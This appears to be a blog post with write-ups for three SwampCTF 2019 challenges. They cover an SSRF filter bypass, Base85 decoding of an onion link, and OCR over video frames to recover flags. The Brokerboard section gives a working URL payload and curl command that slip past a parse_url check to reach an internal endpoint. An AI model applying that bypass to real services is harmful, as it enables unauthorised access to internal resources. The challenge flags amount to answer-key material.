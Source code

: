 ```yaml
---
layout: post
title: SwampCTF 2019 - Write-Ups
---
```


## Brokerboard [50]

### Problem Description

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been very secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from https://localhost/key and host it themselves :grimacing:. Fortunately, with a lil' parse_url magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

chal1.swampctf.com:1244

-= Created by andrewjkerr =-

- - - -

### Solution

After connecting to the [website](http://chal1.swampctf.com:1244/) of the challenge, we obtain the following page:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img1.png)

There was an input field in the page allowing us to send a request to the URL we wanted.

After some tries I noticed that the only accepted URL was <www.google.com>. Taking this into account, we tried injecting <http://google.com#@localhost/key>.

```
$ curl http://google.com#@localhost/key --data="link=http://google.com#@localhost/key"

<html>
<head>
    <title>Link Fetcher</title>
</head>
<body>
    <h1>The Link Fetcher</h1>
    <p>Want to remember cool links? This link fetcher will fetch links and store them for you!</p>
    <form action="/" method="POST">
        <input type="text" name="link" />
        <input type="submit" />
    </form>

    <p>Link added!</p><p>Link: http://google.com#@localhost/key</p><p>Title: The flag!</p><p>Description: flag{y0u_cANn0t_TRU5t_php}</p><hr /></body>
```
Flag: **flag{y0u_cANn0t_TRU5t_php}**

## NIT [128]

### Problem Description

The network investigative technique had just triggered and we were starting receive telemetry when, suddenly, a pop-up asked him for administrative access. He freaked out and yanked his cable leaving us with a copious amount of line noise. We've been tracking this guy for a while and really need a win here.

See if you can get anything out of this mess:

A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY

-= Created by v0ldemort =-

- - - -

### Solution

We received a ciphered/encoded string, "A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY". After trying to decipher it using many Cipher algorithms, I found the solution. It was encoded using [Base85](https://en.wikipedia.org/wiki/Ascii85):

I used [CyberChef](https://gchq.github.io/CyberChef) to decode the string obtaining an onion link (depastedihrn3jtw.onion/show.php?md5=7d1ecb0f8f428b70e49de68ead337d7e):

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img2.png)

This link shows the following information in the comments:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img3.jpg)

The comment with "flag = fecabed47e50e3a2b615e86d0e0f1c59" suggested me to visit the following onion link (depastedihrn3jtw.onion/show.php?md5=fecabed47e50e3a2b615e86d0e0f1c59), which finally shows the flag:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img4.jpg)

Flag: **flag{sp00ky_W3bz_L0L}**

## Ghidra Release

### Problem Description [310]

[Meanwhile at the NSA on a Friday afternoon]

Manager: Hey, we're going to be releasing our internal video training for Ghidra and we need you to watch it all to flag any content that needs to be redacted before release.

Manager: The release is next Monday. Hope you didn't have any weekend plans!

You: Uhhh, sure bu-

Manager: Great! Thanks. Make sure nothing gets out.

You: ... [looks at clock. It reads 3:45PM]

You: [Mutters to self] No way am I watching all of this: https://static.swampctf.com/ghidra_nsa_training.mp4

-= Created by DigitalCold =-

- - - -

### Solution

I downloaded the video from the provided [link](https://static.swampctf.com/ghidra_nsa_training.mp4).

After having it downloaded, I extracted 1 frame for each second of video using the [ffmpeg](https://ffmpeg.org/ffmpeg.html) tool.

```
$ ffmpeg -i ghidra_nsa_training.mp4 -vf "fps=1" out%0d.png
```

Once having all the frames extracted, I used [tesseract](https://ffmpeg.org/ffmpeg.html), an OCR engine to extract text from images to analyze all the frames previously extracted. The simple bash script I prepare for that:

```
for file in $(ls . | grep png); do
	echo "image:${file}";
	tesseract $file - | grep -i flag
done
```

I obtained the first part of the flag in the image out12175.png, as shown in the following image:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img5.jpg)

The next part of the flag was obtained in the image out26715.png:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img6.jpg)

All the parts of the flag were:

* FLAG(1/4): flag{l34
* FLAG(2/4): kfr33_n4
* FLAG(3/4): tion4l_s
* FLAG(4/4): 3cur1ty}

Flag: **flag{l34kfr33_n4tion4l_s3cur1ty}**

